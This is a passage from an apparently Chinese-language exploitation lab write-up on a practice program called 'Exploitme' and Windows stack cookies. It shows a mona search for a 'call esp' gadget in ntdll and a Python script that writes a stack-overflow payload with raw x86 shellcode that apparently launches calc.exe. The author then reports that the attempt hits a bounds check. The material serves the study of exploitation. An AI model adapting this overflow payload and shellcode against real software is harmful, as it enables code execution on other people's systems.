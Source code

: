 ```c
    return old_main();
}
```

`windbg`下`mona`搜索`jmp esp`

```shell
.load pykd
!py mona j -r esp -m "ntdll"
# 虽然Exploitme模块关闭了ASLR，但它里面没有符合要求的指令。我们还是得用默认开启了ASLR的系统模块，且每次重启电脑都要重新寻找。
```

```plain
0x7755ce33 |   0x7755ce33 (b+0x0010ce33)  : call esp 
```

`exp.py`:

```python
# python3
with open('D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat', 'wb') as f:
    ret_eip = b'\x33\xce\x55\x77'	# 小端序
    shellcode = (b"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
        b"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
        b"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
        b"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
        b"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
        b"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
        b"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
        b"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
        b"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
        b"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
        b"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
        b"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
        b"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
        b"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
        b"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
        b"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
        b"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
        b"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
        b"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
        b"\x30\x03\xc6\xeb\xdd")
    name = b'a'*32 + b'b'*4 + ret_eip + shellcode
    f.write(name)
```

`visual studio`下以`release`模式调试程序，报错如下：

![security-check-failure](../pic/Exploitme-Cookie/array-check-failure.png)

`windbg`下运行，结果如下：

![security-check-failure](../pic/Exploitme-Cookie/windbg-cookie-check-failure.png)

上面的报错信息是数组超出边界报错，和我们预想的通过`cookie`检测到栈溢出不同，下面分析原因。
